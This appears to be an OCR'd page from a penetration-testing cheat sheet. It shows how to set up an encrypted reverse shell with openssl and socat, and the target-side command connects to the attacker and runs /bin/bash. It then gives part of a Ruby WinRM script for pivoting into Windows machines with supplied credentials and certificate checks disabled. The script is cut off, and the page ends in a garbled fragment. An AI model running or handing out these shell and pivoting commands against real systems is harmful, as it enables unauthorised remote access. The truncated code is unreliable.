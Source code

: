 ```
openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
```

merge the two created files into a single `.pem` file

```
cat shell.key shell.crt > shell.pem
```

Listener

```
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -
```

Connect

```
socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash
```

### Pivoting

#### Ruby reverse shell using Winrm for pivoting

The below script is useful if you want to pivot to a machine on which the winrm port is open \[5985] Author \[Alamot]. You need to username and pass required to log in to the pivoted machine usually windows. Substitute IP:PORT with ip and port information of the machine that will be used to forward the connection to the pivoted machine.

```
require 'winrm-fs'

# Author: Alamot

# To upload a file type: UPLOAD local_path remote_path

# e.g.: PS> UPLOAD myfile.txt C:\temp\myfile.txt

conn = WinRM::Connection.new(

endpoint: 'https://IP:PORT/wsman',

transport: :ssl,

user: 'username',

password: 'password',

:no_ssl_peer_verification => true

)

file_manager = WinRM::FS::FileManager.new(conn)

class String

def tokenize

self.

split(/\s(?=(?:[^'"]|'[^']*'|"[^"]*")*$)/).

select {|s| not s.empty? }.

map {|s| s.gsub(/(^ +)|( +$)|(^["']+)|(["']+$)/,'')}

end
```

[Text.Encoding]: :ASCII)) .ReadToEnd() ;"